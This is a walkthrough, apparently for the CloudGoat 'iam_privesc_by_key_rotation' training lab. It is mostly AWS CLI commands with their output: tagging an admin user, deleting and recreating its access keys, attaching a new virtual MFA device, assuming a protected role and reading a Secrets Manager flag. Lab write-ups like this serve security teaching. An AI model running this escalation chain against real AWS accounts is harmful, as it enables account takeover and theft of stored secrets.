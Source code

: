 # IAM Privecs by Key Rotation Cheat Sheet

```bash
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=RjW4jK6hMm....
```

Enumerate the credentials

```bash
aws iam list-user-policies --user-name devops_iam_privesc_by_key_rotation_<cloudgoat_id>
# SelfManageAccess
# TagResources

aws iam get-user-policy --user-name devops_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name SelfManageAccess

aws iam get-user-policy --user-name devops_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name TagResources
```

With the permissions we can tag and change access keys for users with the tag

```bash
aws iam tag-user --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --tags '{"Key":"developer","Value":"true"}'

aws iam list-access-keys --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>

aws iam delete-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --access-key-id AKIAZ6IIT5XU4BXDZM7B

aws iam create-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>
# {
#     "AccessKey": {
#         "UserName": "admin_iam_privesc_by_key_rotation_<cloudgoat_id>",
#         "AccessKeyId": "AKIA....",
#         "Status": "Active",
#         "SecretAccessKey": "GQg+9Me8LmB+099t6....",
#         "CreateDate": "2023-09-04T19:20:02+00:00"
#     }
# }
```

With the "admin" users credentials we can assume the role it has access to...

```bash
export AWS_ACCESS_KEY_ID=AKIA....
export AWS_SECRET_ACCESS_KEY=GQg+9Me8LmB....

aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret
# Access Denied
```

...the role can only be assumed when using multi-factor authentication

Create a virtual mfa device

```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name cloudgoat_virtual_mfa --outfile QRCode.png --bootstrap-method QRCodePNG
# "SerialNumber": "arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa"
```

Scan the QR code in the file `QRCode.png`. For the following command put in two consecutive tokens. 

```bash
aws iam enable-mfa-device \
    --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> \
    --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa \
    --authentication-code1 438582 \
    --authentication-code2 615656
```

Now we can assume the role since were using mfa

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa --token-code 798934
# {
#     "Credentials": {
#         "AccessKeyId": "ASIA...",
#         "SecretAccessKey": "Mm8ij9L8eV.....",
#         "SessionToken": "IQoJb3JpZ2luX2VjE..................",
#         "Expiration": "2023-09-04T20:36:44+00:00"
#     },
#     "AssumedRoleUser": {
#         "AssumedRoleId": "AROAZ6IIT5XU5WXMGTWEW:cloudgoat_secret",
#         "Arn": "arn:aws:sts::0123456789:assumed-role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>/cloudgoat_secret"
#     }
# }
```

In a new shell retreive the secret

```bash
export AWS_ACCESS_KEY_ID=ASIA....
export AWS_SECRET_ACCESS_KEY=Mm8ij9L8eV....
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjE..................

aws secretsmanager list-secrets

aws secretsmanager get-secret-value --secret-id cg_secret_iam_privesc_by_key_rotation_<cloudgoat_id>
# Flag{...}
```
